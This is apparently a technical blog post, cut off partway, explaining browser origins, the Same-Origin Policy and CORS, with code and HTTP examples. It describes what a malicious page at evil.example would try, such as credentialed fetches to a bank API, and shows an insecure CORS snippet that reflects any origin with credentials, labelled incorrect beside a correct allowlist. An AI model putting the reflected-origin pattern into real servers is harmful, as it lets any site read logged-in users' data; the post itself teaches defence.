




import Note from '../../components/Note.astro';

Every tab you open runs code written by strangers. A news site pulls in ad scripts from a dozen vendors, a dashboard embeds a third-party chart widget, and a phishing page you clicked by accident sits in the tab next to your online banking. All of that code runs in the same browser that holds your session cookies, your saved passwords and your locally stored data.

The browser is the only party in a position to keep those programs apart. The server for `evil.example` cannot stop its own JavaScript from calling `fetch('https://bank.example/api/balance')`, and `bank.example` has no visibility into what other tabs are doing. So the browser enforces a set of rules about **who can talk to whom**, and this post is about those rules.

The question it answers is: **how does a browser decide which origins can communicate, which resources can be accessed, and which scripts are allowed to execute?** Three mechanisms do most of that work, and they are easy to confuse because they all involve the word "origin":

- The **Same-Origin Policy (SOP)** is the default rule: script from one origin cannot _read_ data that belongs to another origin.
- **Cross-Origin Resource Sharing (CORS)** is the opt-out: a server can tell the browser that specific other origins may read its responses.
- **Content Security Policy (CSP)** limits a page from the inside: it tells the browser which scripts, styles, frames and connections the page itself may use, so that injected code has less room to run.

Around them sit a handful of newer mechanisms (CORP, COEP, COOP, cookie `SameSite` rules and Fetch Metadata) that close gaps the original three leave open. Throughout the post, two distinctions keep coming up. The first is between what the **browser enforces** and what the **server must enforce itself**. The second is between **sending a request**, **embedding a resource** and **reading a response**, because the browser treats those three very differently.

<Note>
  where a behaviour is defined by a standard (the WHATWG HTML and Fetch standards, the W3C CSP specification) it is
  described as universal. Where it is a browser's implementation choice, such as preflight cache limits or default
  cookie policy, it is labelled as such.
</Note>

## Why browsers need a security model

### What a malicious page would like to do

Picture a user logged in to `https://bank.example` in one tab, who then opens `https://evil.example` in another. Without any rules, script on the evil page could:

- **Read authenticated data.** `fetch('https://bank.example/api/account', { credentials: 'include' })` would carry the user's cookies, and the attacker would read the account balance from the response.
- **Reach into other windows.** Open the bank in a popup or iframe, then read its DOM, scrape CSRF tokens out of forms, or attach event listeners to the password field.
- **Read local storage.** Pull tokens out of another site's `localStorage` or IndexedDB.
- **Act as the user.** Submit a transfer form to the bank. The cookies ride along, and the bank sees an authenticated request.
- **Reach the internal network.** Requests from the browser originate inside the user's network, so an evil page can target `http://192.168.1.1/` or an intranet service that the attacker cannot reach directly.

Some of these the browser blocks outright, some it blocks only partially, and some (acting as the user) it largely leaves to the server. Knowing which is which is most of what this post is about.

### How the browser isolates sites

The browser enforces isolation at two levels. At the **logical level**, every document, worker and stored item is labelled with an **origin**, and APIs check that label before handing over data. At the **process level**, modern browsers also put different sites in different operating-system processes (Chromium's Site Isolation, Firefox's Fission), so that a memory-reading bug or a Spectre-style side channel in one renderer cannot read another site's memory. The specifications define the logical rules. The process model is an implementation detail that varies by browser and platform, and the [Chromium process model documentation](https://chromium.googlesource.com/chromium/src/+/main/docs/process_model_and_site_isolation.md) describes one design in detail.



Keep this picture in mind: CSP is a policy a page applies **to itself**, SOP and CORS govern **reading another origin's responses**, and cookie rules govern **what credentials travel with a request**. They answer different questions, which is why you need all of them.

## Understanding origins

### Scheme, host and port

The [HTML Standard](https://html.spec.whatwg.org/multipage/browsers.html#origin) defines a **tuple origin** as a scheme, a host and a port (plus a domain field used only by the legacy `document.domain` feature). Two origins are **same origin** when all three components are identical. Everything else about the URL (path, query string, fragment, username) is ignored.

```js title="Inspecting origins in the console"
new URL('https://app.example.com:443/dashboard?tab=2#top').origin;
// "https://app.example.com"  (443 is the default for https, so it is omitted)

new URL('http://localhost:3000/api').origin;
// "http://localhost:3000"

window.origin; // the current document's origin, serialized
```

Paths do not participate because the origin is the unit at which the browser can actually enforce isolation. Two pages on the same origin share cookies, storage and the ability to script each other's DOM, so any path-based boundary would be trivially bypassed: `https://example.com/alice/` could open `https://example.com/bob/` in an iframe and read it directly. Cookies do have a `Path` attribute, but it is a scoping convenience, not a security boundary, for exactly this reason.

**Default ports** are normalized: `https://example.com` and `https://example.com:443` are the same origin, as are `http://example.com` and `http://example.com:80`. Hosts are normalized to lowercase, and internationalized domain names are converted to their ASCII (Punycode) form before comparison.

### Origin vs URL vs site

A **site** is a coarser grouping. Per the HTML Standard, a site is the scheme plus the **registrable domain** (also called eTLD+1): the public suffix plus one label. Public suffixes come from the [Public Suffix List](https://publicsuffix.org/), which includes not just `com` and `co.uk` but also shared-hosting domains like `github.io`, so that `alice.github.io` and `bob.github.io` are different sites. For IP addresses and hosts with no registrable domain, the host itself is the site. The web.dev article [Understanding "same-site" and "same-origin"](https://web.dev/articles/same-site-same-origin) has a good visual breakdown.

The scheme is part of the site in the current definition, a model sometimes called **schemeful same-site**. Older definitions ignored the scheme, so you will still find documentation that treats `http://example.com` and `https://example.com` as same-site. Chromium switched its `SameSite` cookie logic to schemeful same-site in 2021.

| Concept | Made of                    | Example for `https://app.example.com:8443/a?b#c` | Used by                                              |
| ------- | -------------------------- | ------------------------------------------------ | ---------------------------------------------------- |
| URL     | Everything                 | `https://app.example.com:8443/a?b#c`             | Navigation, fetching                                 |
| Origin  | Scheme, host, port         | `https://app.example.com:8443`                   | SOP, CORS, storage, `postMessage`, CSP `'self'`      |
| Site    | Scheme, registrable domain | `https://example.com`                            | `SameSite` cookies, Site Isolation, `Sec-Fetch-Site` |

The comparison below uses `https://app.example.com/dashboard` as URL A.

| URL B                                                  | Same origin? | Same site? | Reason                                         |
| ------------------------------------------------------ | ------------ | ---------- | ---------------------------------------------- |
| `https://app.example.com/settings?x=1`                 | Yes          | Yes        | Only the path and query differ                 |
| `https://app.example.com:443/`                         | Yes          | Yes        | 443 is the default port for `https`            |
| `https://APP.Example.com/`                             | Yes          | Yes        | Hosts are case-insensitive                     |
| `http://app.example.com/`                              | No           | No         | Different scheme (schemeful same-site)         |
| `https://app.example.com:8443/`                        | No           | Yes        | Different port; ports are not part of a site   |
| `https://api.example.com/`                             | No           | Yes        | Different host, same registrable domain        |
| `https://example.com/`                                 | No           | Yes        | A parent domain is still a different host      |
| `https://app.example.com.evil.net/`                    | No           | No         | Registrable domain is `evil.net`               |
| `https://alice.github.io/` vs `https://bob.github.io/` | No           | No         | `github.io` is a public suffix                 |
| `http://localhost:3000/` vs `http://localhost:4000/`   | No           | Yes        | Same host, different port                      |
| `http://localhost:3000/` vs `http://127.0.0.1:3000/`   | No           | No         | Different hosts; an IP address is its own site |

The last two rows matter for local experiments later in this post: two dev servers on different `localhost` ports are **cross-origin but same-site**, which means CORS applies but `SameSite` cookie restrictions do not.

### Special and opaque origins

Not every document has a tuple origin. Some get an **opaque origin**: a unique, unforgeable identity that is equal only to itself. An opaque origin serializes as the string `"null"`, which is what you see in the `Origin: null` request header. Here is how the common special cases behave:

- **`about:blank`** documents created by a page (a new iframe with no `src`, or `window.open()` with no URL) **inherit the origin of the document that created them**. That is why a parent can write into a fresh blank iframe. `srcdoc` iframes likewise inherit their parent's origin.
- **`blob:` URLs** embed the origin of the document that created them: `URL.createObjectURL(file)` returns something like `blob:https://app.example.com/6c1f…`, and a document loaded from it is same-origin with its creator.
- **`data:` URLs** loaded as documents (in an iframe, for example) get a **fresh opaque origin**, so a `data:` iframe cannot script its parent. Most browsers also block top-level navigations to `data:` URLs initiated by web content, because they were heavily used for phishing.
- **Sandboxed iframes** (`<iframe sandbox>`, or a `sandbox` CSP directive) get an opaque origin unless the `allow-same-origin` token is present. Their requests carry `Origin: null`.
- **`file:` URLs** have no standardised origin: the [URL Standard](https://url.spec.whatwg.org/#concept-url-origin) leaves it to the browser and suggests an opaque origin when in doubt. Modern browsers generally treat each local file as an opaque or unique origin, which is why `fetch()` from a page opened by double-clicking it usually fails. Run a local server instead.

> Because every sandboxed iframe and many redirected requests send `Origin: null`, a server that allows `null` as a trusted origin is allowing any attacker who can create a sandboxed iframe.

## The Same-Origin Policy

### History and what it protects

Netscape introduced the Same-Origin Policy in 1995 alongside JavaScript in Navigator 2.0, initially to stop script in one frame from reading the contents of another. It was never a single specification. Instead, the rule is woven through many specs: the HTML Standard defines cross-origin window access and storage, the Fetch Standard defines what responses script may read, and the canvas, CSS Object Model and other APIs each define their own checks. MDN's [Same-origin policy](https://developer.mozilla.org/en-US/docs/Web/Security/Defenses/Same-origin_policy) page is the best overview.

The core idea fits in one sentence: **a script can freely use resources from its own origin, but it cannot read data belonging to another origin unless that origin agrees.**

### Embedding, sending and reading

The most important thing to understand about SOP is that it does **not** block most cross-origin requests. The web was built on cross-origin embedding (images from a CDN, scripts from a library host, forms that post to a payment processor) long before SOP existed, and breaking that was never an option. What SOP restricts is **reading**.

MDN groups cross-origin interactions into three categories:

| Interaction                | Examples                                                                            | Allowed cross-origin?                                  |
| -------------------------- | ----------------------------------------------------------------------------------- | ------------------------------------------------------ |
| **Writes** (sending)       | Link clicks, redirects, form submissions                                            | Generally yes; the request is sent                     |
| **Embedding**              | ``, `<script>`, `<link rel="stylesheet">`, `<video>`, `<iframe>`, `@font-face` | Generally yes, with per-type exceptions                |
| **Reads** (access to data) | Reading a `fetch()` response body, reading pixels, reading a frame's DOM            | No, unless the other origin opts in (usually via CORS) |

So a malicious page can make the browser _send_ a POST to your API with the user's cookies attached (subject to cookie rules). SOP's guarantee is only that the page cannot _read_ the response. That gap is exactly where CSRF lives, and it is why SOP alone is not enough.

### Fetch and XMLHttpRequest

When page script calls `fetch()` for another origin, the request is made in **`cors` mode** by default. The browser sends the request, receives the response, and then checks for CORS headers before exposing anything to script. If the check fails, `fetch()` rejects with a `TypeError` and the response body, status and headers are never made available, even though the server may have done all its work. The browser deliberately makes the error uninformative (you cannot tell a CORS failure from a DNS failure in script) so that it cannot be used to probe other origins.

You can also ask for **`no-cors` mode**. The request is limited to `GET`, `HEAD` or `POST` with safelisted headers, and the result is an **opaque response**: `status` is `0`, headers are empty and the body is unreadable. Opaque responses are useful for caching assets in a service worker, but they give script nothing to read.

```js title="Sending vs reading cross-origin"
// Request is sent; the response is unreadable without CORS headers from the server.
try {
  const res = await fetch('https://api.other.example/data');
  console.log(await res.json());
} catch (err) {
  console.log(err); // TypeError: Failed to fetch (details only in the DevTools console)
}

// Request is sent; the response is opaque by design.
const opaque = await fetch('https://api.other.example/data', { mode: 'no-cors' });
console.log(opaque.type, opaque.status); // "opaque" 0
```

### Cross-origin DOM access and iframes

Windows and frames are the other big surface. If a page embeds a cross-origin iframe or opens a cross-origin popup, it gets a `WindowProxy` for it, but almost every property access throws. The HTML Standard allows only a small set of cross-origin properties: `window.location` (mostly write-only: you can navigate the frame, and call `location.replace()`), `postMessage()`, `close()`, `closed`, `focus()`, `blur()`, `frames`, `length`, `opener`, `parent`, `self`, `top` and `window`.

```js title="Cross-origin frame access"
// Parent page: https://app.example.com
// <iframe id="ext" src="https://widget.other.example/"></iframe>
const frame = document.getElementById('ext');

frame.contentDocument; // null: you never get a cross-origin Document
frame.contentWindow.location.href = 'https://widget.other.example/v2'; // allowed: navigation
frame.contentWindow.postMessage({ type: 'ping' }, 'https://widget.other.example'); // allowed

try {
  frame.contentWindow.document.title;
} catch (err) {
  console.log(err.name); // "SecurityError"
}
```

The legacy escape hatch, setting `document.domain` to a shared parent domain so two subdomains can script each other, is deprecated. Chrome now isolates documents into origin-keyed agent clusters by default and ignores the setter unless the page opts out with `Origin-Agent-Cluster: ?0` ([Chrome for Developers](https://developer.chrome.com/blog/document-domain-setter-deprecation)). Use `postMessage()` instead.

### `postMessage()`: the sanctioned channel

[`window.postMessage()`](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage) is the supported way for cross-origin windows to talk. The browser delivers the message, and tells the receiver who sent it. Both directions have a security obligation: the sender should name the **target origin** so the message is not delivered if the frame has been navigated elsewhere, and the receiver must **check `event.origin`**, because any window holding a reference can post to it.

```js title="postMessage with origin checks on both sides"
// Sender: https://app.example.com
const widget = document.getElementById('ext').contentWindow;
widget.postMessage({ type: 'set-theme', theme: 'dark' }, 'https://widget.other.example');

// Receiver: https://widget.other.example
const TRUSTED_PARENT = 'https://app.example.com';
window.addEventListener('message', (event) => {
  if (event.origin !== TRUSTED_PARENT) return; // ignore everyone else
  if (event.data?.type === 'set-theme') {
    document.documentElement.dataset.theme = event.data.theme === 'dark' ? 'dark' : 'light';
  }
});
```

A missing `event.origin` check, or a check like `event.origin.includes('example.com')`, is a common source of real vulnerabilities. Using `'*'` as the target origin leaks the message to whatever page currently occupies the frame.

### Storage and cookies

**Web storage, IndexedDB, the Cache API and service workers are keyed by origin.** `https://app.example.com` and `https://api.example.com` see completely separate `localStorage`. In third-party contexts, browsers now go further and **partition** storage by the top-level site as well, so an iframe from `widget.example` embedded on `a.example` and on `b.example` gets two separate storage buckets. Chrome, Firefox and Safari all partition third-party storage, though the exact details differ.

**Cookies do not follow the Same-Origin Policy.** They predate it and use their own, looser scoping defined in [RFC 6265](https://httpwg.org/specs/rfc6265.html) and its ongoing revision:

- A cookie is scoped to a **host** (or, with the `Domain` attribute, to a domain and all its subdomains) and a path.
- **Ports are ignored.** A cookie set by `localhost:4000` is sent to `localhost:3000`.
- Historically, the **scheme was ignored** too, which is why the `Secure` attribute exists.
- `SameSite` decides whether a cookie is attached to cross-**site** requests, which is a site-level check, not an origin-level one.

This mismatch matters. If `blog.example.com` has an XSS hole, it is cross-origin with `app.example.com`, so SOP stops it from reading app data, but it is same-site, so `SameSite` cookies still flow on requests it triggers. The cookie prefixes `__Host-` (forces `Secure`, `Path=/` and no `Domain`, pinning the cookie to one host) and `__Secure-` help narrow the gap.

### Images, scripts, stylesheets and fonts

Each embeddable resource type has its own rule for what the embedding page may learn:

- **Images** from any origin can be displayed. If you draw a cross-origin image onto a `<canvas>` without CORS, the canvas becomes **tainted**, and `getImageData()`, `toDataURL()` and `toBlob()` throw `SecurityError`. Adding the [`crossorigin`](https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Attributes/crossorigin) attribute switches the fetch to `cors` mode, and if the server responds with `Access-Control-Allow-Origin`, the canvas stays clean.
- **Scripts** from any origin execute with the **embedding page's** origin and full privileges, which is why including a third-party script is a trust decision. Errors thrown by cross-origin scripts are reduced to `"Script error."` in `window.onerror` unless the script is loaded with `crossorigin` and served with CORS headers.
- **Stylesheets** from any origin are applied, but reading their rules through `sheet.cssRules` throws without CORS. Browsers also refuse cross-origin stylesheets served with a non-CSS MIME type.
- **Fonts** loaded through `@font-face` are fetched in **`cors` mode** by specification, so cross-origin fonts fail to load without `Access-Control-Allow-Origin`. This surprises people who host fonts on a separate CDN domain.

```js title="A tainted canvas"
const img = new Image();
img.src = 'https://images.other.example/photo.jpg'; // no crossorigin attribute
img.onload = () => {
  const canvas = document.createElement('canvas');
  canvas.width = img.width;
  canvas.height = img.height;
  const ctx = canvas.getContext('2d');
  ctx.drawImage(img, 0, 0); // displaying is fine
  try {
    ctx.getImageData(0, 0, 1, 1); // reading pixels is not
  } catch (err) {
    console.log(err.name); // "SecurityError"
  }
};
```

### Limitations of SOP

SOP is a read barrier, and that leaves gaps:

- **It does not stop requests.** Cross-origin form posts, image loads and `no-cors` fetches all reach the server with cookies attached (subject to cookie policy). CSRF defences must be server-side or cookie-based.
- **Embedding leaks information.** An `` tag reveals whether a URL returned an image and its dimensions. A `<script>` tag executes whatever it gets. Historically, sites leaked JSON by serving it in a form that could be executed as a script. Browsers added **Cross-Origin Read Blocking (CORB)**, and are moving to its successor **Opaque Response Blocking (ORB)** in the Fetch Standard, which withholds opaque responses that look like HTML, JSON or XML from the renderer process. Implementation status differs between browsers.
- **Same-site is not same-origin.** Subdomains are separate origins for SOP but share a site for cookies.
- **Side channels.** Timing, frame counting (`window.length`) and Spectre-class CPU attacks can leak information across the boundary. This is what COOP, COEP and cross-origin isolation address later in the post.
- **It does not protect a page from code it chose to run.** Once an attacker's script runs in your origin, through XSS or a compromised dependency, SOP considers it to be you. That is CSP's job.

## Cross-Origin Resource Sharing (CORS)

### CORS fundamentals

SOP's read barrier is too strict for modern applications, where `app.example.com` routinely calls `api.example.com` or a third-party API. Before CORS, developers used workarounds like JSONP, which worked by loading data as an executable `<script>` and gave the data provider full script execution in the calling page. CORS replaced that with a declarative protocol. It started as a W3C specification and now lives in the [Fetch Standard](https://fetch.spec.whatwg.org/#http-cors-protocol).

The model is simple: **the browser asks, the server answers with headers, and the browser enforces the answer.**

- On a cross-origin request in `cors` mode, the browser adds an **`Origin`** request header naming the calling origin. Script cannot set or forge it.
- The server returns **`Access-Control-Allow-*`** response headers saying which origins, methods, headers and credentials it permits.
- The browser compares the two. If they match, the response is exposed to script. If not, script gets a network error.

Three consequences follow, and each is a frequent source of confusion:

1. **CORS relaxes SOP; it never tightens it.** Missing CORS headers means "fall back to SOP", which is the most restrictive state. Adding CORS headers can only grant access.
2. **CORS is enforced by the browser, for browser JavaScript.** `curl`, server-to-server calls, mobile apps and attacker scripts running outside a browser ignore it entirely.
3. **CORS is not authentication or authorization.** `Access-Control-Allow-Origin: https://app.example.com` does not mean "only app.example.com can call this endpoint". Anyone can call it from anywhere. It means "browsers may let scripts running on app.example.com read the response". The server must still authenticate every request and authorize every action.

### Simple requests

The Fetch Standard no longer uses the term "simple request", but it is still the common name for a cross-origin request that does not need a preflight. A request qualifies if all of the following hold ([Fetch: CORS-safelisted request-header](https://fetch.spec.whatwg.org/#cors-safelisted-request-header)):

- The method is a **CORS-safelisted method**: `GET`, `HEAD` or `POST`.
- Every header set by script is a **CORS-safelisted request-header**: `Accept`, `Accept-Language`, `Content-Language`, `Content-Type` and `Range` (with a single simple byte range). Values must not contain certain unsafe bytes, each value must be at most 128 bytes, and their combined size must stay within 1024 bytes.
- `Content-Type`, if set, is one of `application/x-www-form-urlencoded`, `multipart/form-data` or `text/plain`.
- For `XMLHttpRequest`, no event listeners are registered on `xhr.upload`.

Headers the browser sets itself, like `User-Agent`, `Referer` or `Cookie`, do not count. The rationale is historical: these are exactly the requests an HTML form or `` tag could already send before CORS existed, so a server could already receive them from any origin. Letting `fetch()` send them adds no new capability for an attacker.

Here is a simple cross-origin `GET` from `https://app.example.com`:

```http title="Request"
GET /v1/products?limit=2 HTTP/1.1
Host: api.example.net
Origin: https://app.example.com
Accept: application/json
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site
```

```http title="Response"
HTTP/1.1 200 OK
Content-Type: application/json
Access-Control-Allow-Origin: https://app.example.com
Access-Control-Expose-Headers: X-Total-Count
Vary: Origin
X-Total-Count: 48

[{"id":1,"name":"Keyboard"},{"id":2,"name":"Mouse"}]
```

The browser's validation, run after the full response arrives, is:

1. Is `Access-Control-Allow-Origin` present exactly once?
2. Is its value `*`, or byte-for-byte equal to the request's `Origin` (`https://app.example.com`, without a trailing slash)?
3. If the request was credentialed, is the value not `*`, and is `Access-Control-Allow-Credentials: true` present?

If all checks pass, script receives the body and status. By default, script can read only the **CORS-safelisted response headers**: `Cache-Control`, `Content-Language`, `Content-Length`, `Content-Type`, `Expires`, `Last-Modified` and `Pragma`. Anything else, like `X-Total-Count` above, must be listed in **`Access-Control-Expose-Headers`**, or `res.headers.get('X-Total-Count')` returns `null`.

Notice what did not happen: the server processed the request before the browser made any decision. For a `GET` this is harmless. For a simple `POST` with `Content-Type: text/plain`, it means **the server-side effect has already happened** when the browser blocks the response. CORS never promises that a request was not sent.

### Preflight requests

For anything outside the simple-request envelope (a `PUT` or `DELETE`, a `Content-Type: application/json`, an `Authorization` header, any custom `X-*` header), the browser first asks permission with a **preflight**: an `OPTIONS` request describing the request it intends to make. Preflight exists to protect servers written before CORS, which assumed that browsers could never send a cross-origin `DELETE` or a JSON body with custom headers. Those servers do not understand `OPTIONS` with CORS headers, so they fail the preflight, and the real request is never sent.

The preflight carries three key headers:

- **`Origin`**: the calling origin.
- **`Access-Control-Request-Method`**: the method of the real request.
- **`Access-Control-Request-Headers`**: a comma-separated, lowercase list of the non-safelisted header names the real request will carry.

Preflights never include cookies or other credentials, even when the real request will. This trips up servers that run authentication middleware before CORS handling: they return `401` to the preflight, and the browser reports a CORS error.

```http title="Preflight request"
OPTIONS /v1/orders/42 HTTP/1.1
Host: api.example.net
Origin: https://app.example.com
Access-Control-Request-Method: PUT
Access-Control-Request-Headers: authorization,content-type
Sec-Fetch-Mode: cors
```

```http title="Preflight response"
HTTP/1.1 204 No Content
Access-Control-Allow-Origin: https://app.example.com
Access-Control-Allow-Methods: GET, POST, PUT, DELETE
Access-Control-Allow-Headers: Authorization, Content-Type
Access-Control-Max-Age: 600
Vary: Origin
```

The browser checks that the preflight response has a **2xx status** (a redirect fails the preflight), that the origin matches, that the requested method is listed in **`Access-Control-Allow-Methods`** (safelisted methods are implicitly allowed), and that every requested header is listed in **`Access-Control-Allow-Headers`**. Header names are compared case-insensitively. Only then does it send the real request, which must itself pass the normal CORS check.



**`Access-Control-Max-Age`** tells the browser how long, in seconds, it may cache the preflight result. Without it, the Fetch Standard default is 5 seconds. Browsers cap the value: Chromium at 7200 seconds (2 hours) and Firefox at 86400 seconds (24 hours). These caps are implementation details and have changed over time. The cache is keyed by origin, **full URL** and credentials mode, so `PUT /v1/orders/42` and `PUT /v1/orders/43` each need their own preflight. APIs with ID-in-path routes and short or missing `Max-Age` can end up doubling their request count.

When a preflight fails, the server sees only the `OPTIONS` request. The real `PUT` never leaves the browser, and script gets a `TypeError`. This is the one case where CORS genuinely prevents a request from being sent, and it applies only to non-simple requests.

### Credentialed requests

The Fetch API's `credentials` option controls whether cookies, HTTP authentication and TLS client certificates are sent:

| `credentials`             | Cookies sent on same-origin requests | Cookies sent on cross-origin requests | Response cookies stored       |
| ------------------------- | ------------------------------------ | ------------------------------------- | ----------------------------- |
| `'omit'`                  | No                                   | No                                    | No                            |
| `'same-origin'` (default) | Yes                                  | No                                    | Same-origin only              |
| `'include'`               | Yes                                  | Yes, subject to cookie policy         | Yes, subject to cookie policy |

`XMLHttpRequest` exposes the same switch as `xhr.withCredentials = true`. An `Authorization` header you add yourself is not a "credential" in this sense. It is a normal request header that triggers a preflight and must be listed in `Access-Control-Allow-Headers`.

For a credentialed cross-origin request to succeed, the response must satisfy stricter rules:

- **`Access-Control-Allow-Credentials: true`** must be present on the actual response, and on the preflight response if there is one.
- **`Access-Control-Allow-Origin` must name the exact origin.** The wildcard `*` is rejected.
- `Access-Control-Allow-Headers`, `Access-Control-Allow-Methods` and `Access-Control-Expose-Headers` also stop treating `*` as a wildcard. It is matched as a literal header or method named `*`.

```js title="A credentialed request"
const res = await fetch('https://api.example.net/v1/me', {
  credentials: 'include',
});
```

```http title="Response that permits it"
HTTP/1.1 200 OK
Content-Type: application/json
Access-Control-Allow-Origin: https://app.example.com
Access-Control-Allow-Credentials: true
Vary: Origin

{"id":"u_123","name":"Ada"}
```

The wildcard ban exists because `*` with credentials would let every site on the internet read every logged-in user's data. The browser forces servers to make a per-origin decision instead.

**CORS permission does not override cookie policy.** Even with perfect CORS headers, the cookie is only attached if the browser's cookie rules allow it, and those rules are evaluated independently:

- **`SameSite`** is a site check. `SameSite=Strict` cookies are never sent on cross-site requests. `SameSite=Lax` cookies are sent cross-site only on top-level navigations with safe methods like `GET`, never on `fetch()`, iframes or image loads. `SameSite=None` cookies are sent cross-site but **must** also be `Secure`. Chromium-based browsers treat cookies with no `SameSite` attribute as `Lax`. Firefox and Safari do not apply that default in the same way, so behaviour differs between browsers.
- **Third-party cookie restrictions** apply on top. Safari blocks third-party cookies by default, and Firefox partitions them per top-level site (Total Cookie Protection). Chrome's plans here have changed several times, and users can block third-party cookies in settings. The `Partitioned` attribute (CHIPS) gives an embedded service a cookie jar keyed to the top-level site. In practice, a cross-site API that depends on cookies set in a third-party context is fragile. A same-site API (`api.example.com` called from `app.example.com`) avoids most of the problem.
- **`Secure`** cookies are sent only over HTTPS (browsers treat `http://localhost` as secure for this purpose). **`HttpOnly`** hides the cookie from `document.cookie`. Neither attribute is related to CORS, but `HttpOnly` limits what an XSS payload can steal.

**CORS and CSRF are related but not the same thing.** CORS controls reading. CSRF is about forged writes, and simple requests (form-encoded or `text/plain` POSTs) are never preflighted, so CORS does nothing to stop them. A strict CORS policy helps only in a narrow sense: if your API _requires_ a non-simple feature (a JSON content type, a custom header) and _rejects_ requests without it, then a cross-origin attacker cannot send an acceptable request without passing a preflight. That is a property of your server's validation, not of CORS. The [CSRF section](#csrf) covers the proper defences.

### Common CORS misconfigurations

**Reflecting any origin with credentials.** The single most dangerous pattern: copying the request's `Origin` into the response so that any origin is "allowed".

```js title="Incorrect: reflects every origin"
res.setHeader('Access-Control-Allow-Origin', req.headers.origin);
res.setHeader('Access-Control-Allow-Credentials', 'true');
```

This is equivalent to having no SOP at all for that API: `evil.example` can read any logged-in user's data. Sloppy matching is nearly as bad: `origin.endsWith('example.com')` matches `https://evilexample.com`, and `origin.includes('example.com')` matches `https://example.com.attacker.net`. Allowing `null` lets any sandboxed iframe in. Use an exact-match allowlist:

```js title="Correct: exact allowlist"
const ALLOWED_ORIGINS = new Set(['https://app.example.com', 'https://admin.example.com']);

function applyCors(req, res) {
  const origin = req.headers.origin;
  res.setHeader('Vary', 'Origin'); // the response differs by Origin, even when we refuse
  if (origin && ALLOWED_ORIGINS.has(origin)) {
    res.setHeader('Access-Control-Allow-Origin', origin);
    res.setHeader('Access-Control-Allow-Credentials', 'true');
  }
